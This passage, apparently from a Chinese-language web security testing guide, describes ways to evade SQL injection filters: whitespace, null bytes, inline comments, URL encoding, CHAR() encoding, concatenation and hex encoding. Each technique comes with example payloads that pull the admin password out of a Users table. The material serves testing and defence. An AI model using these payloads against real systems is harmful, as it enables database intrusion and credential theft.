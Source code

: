 or ' a '   =     ' a '
```

添加不会更改SQL语句执行的特殊字符，例如换行符或制表符。例如，

```
or
'a'=
        'a'
```
##### 空字节
在过滤器阻止的任何字符之前,使用空字节（％00）。

例如，如果攻击者注入以下SQL: ```' UNION SELECT password FROM Users WHERE username='admin'--```

添加空字节将是: ```%00' UNION SELECT password FROM Users WHERE username='admin'--```

##### SQL注释
添加SQL行内注释还可以帮助SQL语句有效并绕过SQL注入过滤器。例如：

```' UNION SELECT password FROM Users WHERE name='admin'--```

添加SQL行内注释：

```'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--```

```'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--```

##### URL编码
使用在线URL编码对SQL语句进行编码，例如有SQL：

```' UNION SELECT password FROM Users WHERE name='admin'--```

SQL注入语句的URL编码为:

```%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--```

##### 字符编码
```Char()```函数可用于替换英文char。例如，```char(114,111,111,116)```表示root。

例如有sql：```' UNION SELECT password FROM Users WHERE name='root'--```

应用```Char()```后的SQL injeciton语句：
```' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--```

##### 字符串拼接

拼接会破坏SQL关键字并逃避过滤器。拼接语法因数据库引擎而异。

以MS SQL引擎为例：

```select 1```

通过使用拼接，可以如下更改简单的SQL语句

```EXEC('SEL' + 'ECT 1')```

##### 十六进制编码
十六进制编码技术使用十六进制编码来替换原始SQL语句char。例如，root可以表示为726F6F74

```Select user from users where name = 'root'```

使用HEX值的SQL语句将为：

```Select user from users where name = 726F6F74```

```